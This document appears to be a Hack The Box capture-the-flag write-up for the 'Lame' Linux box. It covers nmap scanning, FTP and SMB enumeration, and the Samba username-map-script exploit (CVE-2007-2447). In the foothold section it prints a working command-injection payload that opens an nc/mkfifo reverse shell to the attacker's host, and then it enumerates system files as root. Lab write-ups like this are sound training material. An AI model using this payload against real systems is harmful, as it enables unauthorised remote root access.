

+++
title = "Lame"
date = "2023-11-12"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-03-14

**Created by**: [ch4p](https://app.hackthebox.com/users/1)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.3`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Lame using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.3" -p-
```

```
<SNIP>
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.3" --top-ports "500"
```

```
<SNIP>
PORT    STATE  SERVICE
22/udp  closed ssh
139/udp closed netbios-ssn
445/udp closed microsoft-ds
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.3" -p "21,22,139,445,3632" -sV
```

```
<SNIP>
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.10.3" -p "22,139,445" -sV
```

```
<SNIP>
PORT    STATE  SERVICE      VERSION
22/udp  closed ssh
139/udp closed netbios-ssn
445/udp closed microsoft-ds
<SNIP>
```

Alright, so `nmap` managed to determine that Lame is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.3" -p "21,22,139,445,3632" -sC
```

```
<SNIP>
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-02-03T08:36:11-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m20s, deviation: 3h32m08s, median: 19s
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.10.3" -p "22,139,445" -sC
```

```
<SNIP>
PORT    STATE  SERVICE
22/udp  closed ssh
139/udp closed netbios-ssn
445/udp closed microsoft-ds
<SNIP>
```

The `ftp-anon` script reveals that the FTP server accepts anonymous connections.
It didn't find any file though.

Moreover, the `smb-os-discovery` script discloses that Lame's hostname is `lame`.

## Services enumeration

### FTP

#### Exploring the filesystem

Thanks to `nmap`, we know that we can log in anonymously.

```sh
❯ ftp "10.10.10.3"
```

```
<SNIP>
Name (10.10.10.3:root): ftp
331 Please specify the password.
Password: 
230 Login successful.
<SNIP>
ftp>
```

However, as indicated by `nmap`, the FTP server doesn't contain anything.

#### Known vulnerabilities

Exploring the content of the FTP server proved to be unsuccessful. But maybe
it's vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.3" -p "21" --script "vuln"
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
<SNIP>
```

It isn't.

If we search [ExploitDB](https://www.exploit-db.com/) for `vsftpd 2.3.4`, we
find
[vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)](https://www.exploit-db.com/exploits/17491)
([CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)). It looks like
a promising candidate, but unfortunately it doesn't work.

### SMB

#### Exploring the shares

Let's try to list the SMB shares with a NULL session, since we have no
credentials at our disposal.

```sh
❯ smbclient -L "//10.10.10.3" -N
```

```
<SNIP>
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
<SNIP>
```

It worked!

There are two non-default SMB shares: `tmp` and `opt`.

However, it turns out that we can't access `opt`, and that `tmp` contains a
bunch of random files.

#### Known vulnerabilities

Exploring the content of the SMB server proved to be unsuccessful. But maybe
it's vulnerable to known exploits?

```sh
❯ nmap -sS "10.10.10.3" -p "445" --script "vuln"
```

```
<SNIP>
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: false
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
<SNIP>
```

It isn't.

If we search [ExploitDB](https://www.exploit-db.com/) for `samba 3.0.20`, we
find
[Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)](https://www.exploit-db.com/exploits/16320)
([CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)). Let's give it
a try!

## Foothold ([CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447))

[CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) is a
vulnerability in Samba versions `3.0.0` through `3.0.25rc3` when using the
non-default "username map script" configuration option. By specifying a username
containing shell meta characters, an attacker can get RCE.

### Preparation

The Metasploit module `exploit/multi/samba/usermap_script` can be used to
exploit this vulnerability, but it's easy to do manually.

The goal is to exploit this RCE to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

Therefore, after logging in to the SMB server, the command we should enter to
exploit this CVE is:

```sh
logon "/`nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 9001 >/tmp/f`"
```

### Exploitation

Let's connect to the SMB server and access the only share we have access to,
`tmp`.

```sh
❯ smbclient "//10.10.10.3/tmp" -N
```

Then, we can enter our payload followed by a random password:

```sh
smb: \> logon "/`nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 9001 >/tmp/f`"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38676
<SNIP>
root@lame:/#
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder contains a `.ssh` directory. There's no existing private key, so
I'll create one and add the corresponding public key to `authorized_keys`, and
then I'll connect over SSH to Lame. This way, I'll have a much more stable
shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `root`.

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture

What is Lame's architecture?

```sh
root@lame:/# uname -m
```

```
i686
```

It's using i686. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Lame is using.

```sh
root@lame:/# cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04"
```

Okay, so it's Ubuntu 8.04.

### Kernel

Let's find the kernel version of Lame.

```sh
root@lame:/# uname -r
```

```
2.6.24-16-server
```

It's `2.6.24`.

### Users

Let's enumerate all users.

```sh
root@lame:/# grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
backup
bin
daemon
games
gnats
irc
libuuid
list
lp
mail
makis
man
news
nobody
postgres
proxy
root
service
sys
uucp
www-data
```

There are several of them, but their names suggest that these are associated
with specific system services. The only exception is `makis`.

### Groups

Let's enumerate all groups.

```sh
root@lame:/# cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
admin
audio
backup
bin
bind
cdrom
crontab
daemon
dhcp
dialout
dip
disk
fax
floppy
fuse
games
gnats
irc
klog
kmem
libuuid
list
lp
lpadmin
mail
makis
man
mlocate
mysql
news
nogroup
nvram
operator
plugdev
postdrop
postfix
postgres
proxy
root
sambashare
sasl
scanner
service
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
tape
telnetd
tty
users
utmp
uucp
video
voice
www-data
```

Looks classic.

### NICs

Let's gather the list of connected NICs.

```sh
root@lame:/# ifconfig
```

```
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:5b:7e  
          inet addr:10.10.10.3  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:5b7e/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:5b7e/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:136778 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1422 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:8337782 (7.9 MB)  TX bytes:182861 (178.5 KB)
          Interrupt:19 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:322 errors:0 dropped:0 overruns:0 frame:0
          TX packets:322 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:134193 (131.0 KB)  TX bytes:134193 (131.0 KB)
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Lame's hostname?

```sh
root@lame:/# hostname
```

```
lame
```

Yeah I know, very surprising.

### Flags

If we check `makis`'s home folder, we find the user flag.

```sh
root@lame:/# cat "/home/makis/user.txt"
```

```
8f71a6d80918724c271b0e23da43de9e
```

And as usual, we can find the root flag in our home folder.

```sh
root@lame:/# cat "/root/root.txt"
```

```
901fc16931fc85523687af90a2535e75
```

# Afterwords



That's it for this box! 🎉

I rated both the user and root flags as 'Piece of cake' to obtain. The foothold
was extremely easy to identify and to exploit, and it even granted us access to
the system as `root`, so there was no need to escalate privileges afterwards.

Thanks for reading!
